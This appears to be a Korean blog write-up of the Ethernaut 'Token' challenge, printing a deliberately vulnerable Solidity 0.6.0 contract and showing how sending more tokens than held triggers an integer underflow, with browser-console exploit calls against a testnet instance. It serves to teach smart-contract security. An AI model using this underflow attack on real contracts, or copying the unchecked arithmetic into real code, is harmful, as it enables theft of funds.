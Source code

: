 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 5) Token  
date: '2022-01-08 22:23:00'
author: 한성원
tags: ethernaut Token vulnerability
categories: 취약점분석
---
```



# 👋 1. Token
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- additional token 가져오기(해킹해서 가져오기)

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    
    // address와 balance의 mapping
    mapping(address => uint) balances;
    // 토큰의 총 공급량
    uint public totalSupply;

    // constructor: 총 공급량을 parameter로 한다.
    constructor(uint _initialSupply) public {
        // deployer의 balance를 총 공급량과 같게한다.
        // totalSupply를 patameter의 총 공급량과 같이한다.
        balances[msg.sender] = totalSupply = _initialSupply;
    }
    // Token을 transfer하는 function이다.
    function transfer(address _to, uint _value) public returns (bool) {
        // 만약 msg.sender의 (balance - 보내고싶은 토큰의 양)이 0과 같거나 커야한다. 
        require(balances[msg.sender] - _value >= 0);
        // msg.sender의 잔고에서 보낼 토큰의 양을 뺀다.
        balances[msg.sender] -= _value;
        // 수신자의 잔고에 받을 토큰의 양을 더한다. 
        balances[_to] += _value;
        return true;
    }
    // 하나의 address의 balance를 확인 할 수 있는 view function
    function balanceOf(address _owner) public view returns (uint balance) {
        // return balance of an address
        return balances[_owner];
    }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 CoinFlip은 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.


## 풀이
이 문제에서 우리는 기본적으로 주어진 20 토큰 이외에 추가적인 토큰을 얻으면 승리한다.

가장 먼저 우리는 코드에 허점을 찾아야 한다. 하지만 지금까지와 문제와 다르게 그러나있는 허점이 없다. ~~이제야 해킹같네ㅎㅋㅎㅋㅎㅋ~~

우선 내가 공부했던 취약점들을 생각해봤다. 그러던 중 token contract의 solidity compiler version은 0.6.0를 확인했다.

Overflow & Underflow는 꾸준히 이슈가 되다가 0.8.0 version에서부터 알아서 처리될 수 있도록 바뀌었다. Overflow & Underflow에 관해서는 __[이 글](https://holyhansss.github.io/vulnerability/over_under_flow/over_under_flow/)__ 에서 찾아볼수 있다.

우리는 이제 이 문제에서 underflow를 활용해 contract에 attack할 수 있다는 것을 알 수 있다.

__바로 Token.transfer()에 가지고 있는 token보다 큰 수를 보내면 나의 token balance가 underflow를 일으키며 상상할 수도 없는 큰 숫자의 token을 가질 수 있게 된다. 이제 코드를 보도록 하자!__

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 나의 balance를 확인한다: 20개의 Token을 가지고 있을 것이다.
await contract.balanceOf(player)

// contract의 transfer()를 call한다.
// 주소는 metamask를 통해 새로운 주소를 하나 만들었다.
// 내가 가진 토큰의 수 보다 큰 수의 토큰을 보낸다.
await contract.transfer("0x690A732BA98fcfe72bDedE2085816BCF6498058d", 21)

// 다시 나의 balance를 확인해보면 엄청 큰 수의 토큰을 얻을 것을 확인 할 수 있다.
await contract.balanceOf(player)
```

완료 후 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -
## 마무리
overflow와 underflow는 이미 공부했던 취약점이어서 쉽게 해결 할 수 있었다. 빠르게 6도 ㄱㄱ 해봅시다~~

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- overflow & underflow 취약점: https://holyhansss.github.io/vulnerability/over_under_flow/over_under_flow

```toc

```